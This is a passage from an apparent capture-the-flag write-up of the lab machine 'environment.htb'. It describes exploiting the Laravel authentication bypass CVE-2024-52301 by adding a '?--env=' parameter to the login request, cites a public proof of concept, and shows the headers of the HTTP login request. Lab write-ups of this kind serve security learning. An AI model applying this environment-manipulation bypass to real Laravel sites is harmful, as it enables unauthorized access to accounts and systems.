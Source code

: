## Laravel Framework

### CVE-2024-52301: Laravel Framework Authentication Bypass through Environment Settings Manipulation

As expected we hit a `login form` on `/login` to some sort of `Marketing Portal`.

- [http://environment.htb/login](http://environment.htb/login)

![](images/2025-05-04_10-35_80_website_login.png)

Some research later we found a potential `Authentication Bypass` in the `Laravel Framework` aka `CVE-2024-52301` and a related `Proof of Concept (PoC)` exploit.

- [https://dev.to/saanchitapaul/high-severity-laravel-vulnerability-cve-2024-52301-awareness-and-action-required-15po](https://dev.to/saanchitapaul/high-severity-laravel-vulnerability-cve-2024-52301-awareness-and-action-required-15po)
- [https://github.com/martinhaunschmid/CVE-2024-52301-Research](https://github.com/martinhaunschmid/CVE-2024-52301-Research)

We tested for various `fields` on order to `bypass authentication` using the `?--env=` variable and `GitL` a hit with a random value on `$remember` which resulted in `debugging output` describing the stage of `preprod`.

```shell
POST /login HTTP/1.1
Host: environment.htb
Content-Length: 107
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://environment.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://environment.htb/login
Accept-Encoding: gzip, deflate, br
```